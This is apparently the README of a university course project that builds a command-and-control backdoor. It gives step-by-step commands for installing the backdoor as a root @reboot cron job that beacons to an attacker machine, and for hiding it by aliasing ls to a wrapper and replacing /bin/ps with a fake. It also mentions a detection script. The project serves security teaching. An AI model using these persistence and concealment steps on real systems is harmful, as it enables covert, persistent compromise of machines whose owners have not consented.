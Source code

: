 # C S 378 - Command and Control Project (Donald and Vincent)

## Set Up

### Configure IP (IMPORTANT)

Edit the IP addresses in the **_config.py_** file to match the IP address of the attacker and target machine. Can also set which port number the attacker machine will use to listen.

### Creating executables (IMPORTANT)

To create the attacker and backdoor executable things, run the make file. One file named 'attacker'
and another file named 'backdoor' should be created.

This must be done for the configured IP to work.

### Setting Up and Running Backdoor 

#### Installing necessary packages (on week 4)

Run the following commands as root on the week 4 machine:

sed -i 's/mirrorlist/#mirrorlist/g' /etc/yum.repos.d/CentOS-*

sed -i 's|#baseurl=http://mirror.centos.org|baseurl=http://vault.centos.org|g' /etc/yum.repos.d/CentOS-*

sudo yum install -y python3

python3 -m pip install pexpect

python3 -m pip install -U pip setuptools

python3 -m pip install cryptography

#### Creating reboot cronjob 

Place the 'backdoor' executable in the /bin directory of the target machine.

Run **_chmod 755 backdoor_** to give execute permissions.

Run the command **_sudo crontab -e_**

Scroll to the bottom (after all #) and add the line: **_@reboot python3 /bin/backdoor &_**

Reboot the system (**_sudo reboot_**), cronjob should run every restart. Backdoor should call out
to attacker machine every 10 seconds (can edit this amount of time in **_config.py_**).

### Setting Up Detection Evasion

#### ls

In the evasion_and_detection folder, there is an **_ls_custom_** file. Take that and put it into the target machine at **_/usr/bin/ls_custom_**.

Give **_ls_custom_** executing privileges by running: **_chmod 755 /usr/bin/ls_custom_**

Run **_echo "alias ls='/usr/bin/ls_custom'" >> /etc/profile_** followed by **_source /etc/profile_** to reload the shell and apply these changes. The **_source_** call isn't necessary as the next time there is a login to the shell, the updated code will run. This just allows you to test the code without having to log out and back in. 

Now, whenever **_ls_** is run, the wrapper should run instead of the original binary.

#### ps

Place the ***fake_ps*** file found in the evasion_and_detection folder into the **_/bin_** directory of the target machine

Run ***chmod 755 fake_ps***

Create a directory named **_orig_** in the **_/bin_** directory. 

Place the original **_ps_** file from the **_/bin_** directory into the **_/bin/orig_** directory.

Rename the ***fake_ps*** file to **_ps_**

### Setting Up and Running Attacker

Place the 'attacker' executable on the attack machine.

Run **_chmod +x attacker_** to give execute permissions.

Run **_./attacker_** in the command line to run the file and wait for the connection to be initiated by the target machine.

Once connection is made, we should be running as the root user and are in root's directory (at least when testing on Kali machine as target)

### BONUS: Detection Script

In the evasion_and_detection folder, there is an **_detect.py_** file. To run it, put it into the target machine and execute it using the following command: **_python3 detect.py_**.

There is a customization option within the python file, which is what files to look in when searching for aliases. We've included several start-up files to search within, one of which actually contains the alias we used to execute the ls wrapper. However, the list of files can easily be modified to better suit your needs.
